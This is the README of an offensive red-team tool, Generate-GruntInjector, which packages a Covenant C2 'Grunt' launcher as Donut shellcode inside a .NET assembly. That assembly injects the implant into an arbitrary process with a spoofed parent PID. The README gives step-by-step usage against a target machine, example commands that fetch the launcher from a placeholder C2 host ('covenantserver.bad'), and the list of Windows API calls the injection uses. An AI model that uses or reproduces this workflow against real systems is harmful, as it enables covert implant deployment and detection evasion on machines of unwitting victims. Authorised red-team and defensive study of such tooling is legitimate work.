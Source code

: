 # Generate-GruntInjector

A PowerShell script that turns a Covenant Grunt launcher into a .NET assembly that can be coupled with Covenant's `Assembly` command to achieve process injection in Covenant.

## Installation / Getting started

The script relies on [Donut](https://github.com/TheWover/donut) to convert the Grunt launcher .NET assembly into shellcode. Follow their installation and compilation instructions and ensure donut.exe is either in your PATH or note its path.

Clone this repository.

```shell
git clone https://github.com/tgihf/covenant-grunt-injection.git
```

The script uses `csc.exe` to compile the Grunt injector which is executed on the target machine. If you'll be targeting machines that only have .NET 3.5 installed, make sure you have .NET 3.5 and its `csc.exe` installed. If you'll be targeting machines that only have .NET 4.0 installed, make sure you have .NET 4.0 and its `csc.exe` installed. For best results, just install both!

## Usage

> Scenario: you have a functional Grunt on a target machine and want to inject a Grunt into another process.

Host a Binary Launcher. Note the .NET Framework Version. 

![](gif/host-binary-launcher.gif)

Run `Generate-GruntInjector` with the URL the Binary Launcher is hosted on, the path to `donut.exe`, and the .NET Framework version the Binary Launcher is compiled against.

![](gif/generate-grunt-injector.gif)

This produces a Grunt injector, which by default is named `GruntInjector_<timestamp>_v<.NET Framework version>.exe`. This .NET assembly injects a Grunt into an new, arbitrary process with an arbitrary PPID. Details on the process injection technique used can be found in the **Links** section of this README.

Check which processes are running on the target with your functional Grunt. I'll be using the PID of this `powershell.exe` process as my PPID.

![](gif/examine-processes.gif)
  
Navigate to your functional Grunt's `Task` page and select the `Assembly` task.

Give it an arbitrary `AssemblyName`.

Set the `EncodedAssembly` parameter to your new Grunt injector.

For the `Parameters` parameter, give it the full path of the executable you'd like to inject into and the PPID you'd like to spoof.

![](gif/grunt-injection.gif)

Click `Task` and profit!

![](gif/confirm-injection.gif)

### Arguments
#### LauncherURL
Type: `String`  

URL of the Grunt binary launcher hosted on your Covenant server. It will be downloaded from the Covenant server and inserted into the injection assembly. 

```cmd
Generate-GruntInjector.ps1 -LauncherURL https://covenantserver.bad/woo
```

#### InputFile
Type: `String`

Full path to the Grunt binary launcher on disk. It will be read and inserted into the injection assembly.

```cmd
Generate-GruntInjector.ps1 -InputFile C:\Users\covenant\Desktop\launcher.exe
```

#### DotNetFrameworkVersion
Type: `Float`

Options: `3.5` or `4.0`

Default: `4.0`

Specifies which version of the .NET Framework to compile the injection assembly against. 

**IMPORTANT**: This should match the .NET Framework version that the original Grunt binary launcher was compiled against. You can view and modify this on the Launcher > Binary page. You must have which ever version you choose installed on your machine.

```cmd
Generate-GruntInjector.ps1 -LauncherURL https://covenantserver.bad/woo -DotNetFrameworkVersion 3.5
```

#### DonutPath
Type: `String`

Default: `"donut.exe"`

Full path to donut.exe. Installation instructions found [here](https://github.com/TheWover/donut).

```cmd
Generate-GruntInjector.ps1 -LauncherURL https://covenantserver.bad/woo -DonutPath C:\Users\covenant\Desktop\donut\donut.exe
```

#### Outfile
Type: `String`

Default: `"GruntInjector_<timestamp>_v<.NET Framework version>.exe"`

Full path to write the injector assembly to.

```cmd
Generate-GruntInjector.ps1 -LauncherURL https://covenantserver.bad/woo -Outfile C:\Users\covenant\Desktop\covenant\injector.exe
```

## Links

This project is merely an automation of [Rasta Mouse's](https://rastamouse.me) [Covenant/Donut process injection technique](https://rastamouse.me/2019/08/covenant-donut-tikitorch/). All creds to him for doing the heavy thinking! His technique for process injection involves unmanaged calls to `CreateProcess`, `InitializeProcThreadAttributeList`, `UpdateProcThreadAttribute`, `DeleteProcThreadAttributeList`, `VirtualAllocEx`, `WriteProcessMemory`, `VirtualAllocEx`, and `CreateRemoteThread`. The C# source code for the injector is embedded within Generate-GruntInjector and can be found in Rasta Mouse's blog post above.

The project relies heavily on [Donut](https://github.com/TheWover/donut), a phenomenal project that allows us to convert the Grunt launcher .NET assembly into position-independent shellcode. Thank you, [TheWover](https://thewover.github.io) and [Odzhan](https://modexp.wordpress.com)!

This project is a helper tool for [Cobbr's](https://cobbr.io) [Covenant](https://github.com/cobbr/Covenant). Thanks for pioneering such a great project!

## Licensing

The code in this project is licensed under MIT license.
